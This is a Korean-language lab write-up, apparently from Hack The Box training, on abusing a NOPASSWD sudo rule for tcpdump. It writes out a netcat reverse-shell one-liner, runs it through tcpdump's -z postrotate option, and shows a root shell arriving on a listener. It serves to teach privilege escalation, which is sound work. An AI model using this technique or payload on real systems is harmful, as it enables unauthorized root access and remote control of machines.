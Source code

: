 # Sudo Rights Abuse

sudo 명령이 전송되면, 시스템은 명령어를 친 유저가 적절한 권한을 가지고 있는지 `/etc/sudoers` 와 같은 파일에 설정된 대로 확인한다. 시스템에 도착하자마자 현재 유저는 항상 `sudo -l` 부터 입력하여 sudo 권한이 없는지 확인해야 한다. `NOPASSWD`옵션이 있다면, 패스워드 입력 없이 sudo를 쓸 수 있다.

```powershell
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

위 옵션에서 tcpdump는 postrotate-command 옵션으로 악용 가능하다.

**postrotate-command options**

```powershell
htb_student@NIX02:~$ man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

**postrotate-command로 실행할 reverse shell one-liner 생성**

```powershell
htb_student@NIX02:~$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

**postrotate-command 로 /tmp/.test 지정**

```powershell
htb_student@NIX02:~$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```

**reverse shell 수령 확인**

```powershell
hunji@htb[/htb]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```
